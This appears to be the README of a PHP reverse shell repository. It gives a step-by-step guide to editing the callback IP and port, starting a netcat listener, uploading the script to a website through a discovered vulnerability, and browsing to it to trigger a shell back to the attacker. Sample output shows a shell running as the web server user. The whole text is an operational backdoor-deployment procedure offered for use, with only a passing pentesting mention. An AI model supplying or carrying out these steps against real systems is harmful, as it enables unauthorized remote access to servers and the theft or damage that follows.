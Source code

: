 # reverse_shell_php
A PHP Reverse_shell Payload - use it at your own risk!

- Guide :
Modify the source

To prevent someone else from abusing your backdoor – a nightmare scenario while pentesting – you need to modify the source code to indicate where you want the reverse shell thrown back to.  Edit the following lines of php-reverse-shell.php:

$ip = '127.0.0.1';  // CHANGE THIS

$port = 1234;       // CHANGE THIS

Get Ready to catch the reverse shell

Start a TCP listener on a host and port that will be accessible by the web server.  Use the same port here as you specified in the script (1234 in this example):

$ nc -v -n -l -p 1234

Upload and Run the script

Using whatever vulnerability you’ve discovered in the website, upload php-reverse-shell.php.  Run the script simply by browsing to the newly uploaded file in your web browser (NB: You won’t see any output on the web page, it’ll just hang if successful):

http://somesite/php-reverse-shell.php

Enjoy your new shell

If all went well, the web server should have thrown back a shell to your netcat listener.  Some useful commans such as w, uname -a, id and pwd are run automatically for you:

$ nc -v -n -l -p 1234

listening on [any] 1234 ...

connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 58012

Linux somehost 2.6.19-gentoo-r5 #1 SMP PREEMPT Sun Apr 1 16:49:38 BST 2007 x86_64 AMD Athlon(tm) 64 X2 Dual Core Processor 4200+ AuthenticAMD GNU/Linux
 16:59:28 up 39 days, 19:54,  2 users,  load average: 0.18, 0.13, 0.10                                                                                                
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
root   :0        19May07 ?xdm?   5:10m  0.01s /bin/sh
uid=81(apache) gid=81(apache) groups=81(apache)
sh: no job control in this shell
sh-3.2$
